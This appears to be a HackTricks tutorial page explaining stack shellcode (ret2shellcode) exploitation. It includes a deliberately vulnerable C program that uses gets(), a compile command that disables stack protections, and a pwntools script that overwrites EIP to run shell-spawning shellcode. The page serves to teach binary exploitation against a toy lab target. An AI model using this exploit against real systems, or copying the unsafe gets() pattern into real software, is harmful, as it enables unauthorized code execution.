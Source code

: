 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Stack shellcode** is a technique used in binary exploitation where an attacker writes shellcode to a vulnerable program's stack and then modifies the **Instruction Pointer (IP)** or **Extended Instruction Pointer (EIP)** to point to the location of this shellcode, causing it to execute. This is a classic method used to gain unauthorized access or execute arbitrary commands on a target system. Here's a breakdown of the process, including a simple C example and how you might write a corresponding exploit using Python with **pwntools**.

### C Example: A Vulnerable Program

Let's start with a simple example of a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
    vulnerable_function();
    printf("Returned safely\n");
    return 0;
}
```

This program is vulnerable to a buffer overflow due to the use of the `gets()` function.

### Compilation

To compile this program while disabling various protections (to simulate a vulnerable environment), you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

* `-fno-stack-protector`: Disables stack protection.
* `-z execstack`: Makes the stack executable, which is necessary for executing shellcode stored on the stack.
* `-no-pie`: Disables Position Independent Executable, making it easier to predict the memory address where our shellcode will be located.
* `-m32`: Compiles the program as a 32-bit executable, often used for simplicity in exploit development.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:

```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```

This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Protections

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** protection would prevent the execution of the shellcode inside the stack because that region won't be executable.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
  * 64bit, ASLR with stack address leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
  * 32 bit, ASLR with stack leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
  * 32 bit, ASLR with stack leak, comparison to prevent call to exit(), overwrite variable with a value and write shellcode and jump to it

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

